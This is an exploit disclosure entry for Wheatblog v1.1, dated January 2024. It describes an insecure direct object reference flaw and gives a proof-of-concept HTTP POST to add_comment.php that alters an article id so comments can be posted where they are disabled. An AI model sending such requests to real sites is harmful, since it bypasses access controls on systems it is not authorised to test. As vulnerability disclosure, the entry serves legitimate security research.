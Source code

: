 # Exploit Title: Wheatblog v1.1 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/wheatblog/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Wheatblog
## Version: v1.1
## Exploit Description:
## Wheatblog v1.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to add comment to article that disable comment(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /add_comment.php HTTP/1.1
...

comment_month=01&comment_date=08&comment_year=2024&the_id=2(CHANGE HERE)&comment_author_name=user1&comment_author_email=user1%40test.com&comment_author_url=&comment_body=user1111&captcha=123456
```